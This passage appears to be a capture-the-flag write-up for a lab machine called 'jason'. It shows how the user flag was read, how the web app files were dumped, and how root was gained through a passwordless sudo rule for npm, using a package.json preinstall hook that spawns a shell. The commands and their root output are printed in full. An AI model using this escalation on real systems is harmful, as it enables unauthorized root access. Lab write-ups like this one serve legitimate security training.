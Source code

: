 ## User Flag

```bash
cd /home
ls
dylan
cd dylan
ls
user.txt

cat user.txt
0b****************************7c
```

## Dumping Web App Files

```js
cat server.js
var http = require('http')
var fs = require('fs');
// abbreviated ...
```

I dumped all the files, they can be found in the `from_target` folder.


## PrivEsc

```bash
whoami
dylan

sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

We can run `npm` with `sudo`. Let's have a look at https://gtfobins.github.io/gtfobins/npm/.

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

Let's try this payload on our target.

```bash
whoami
dylan

TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.yF3oZgvQyI
> /bin/sh

whoami
root
```

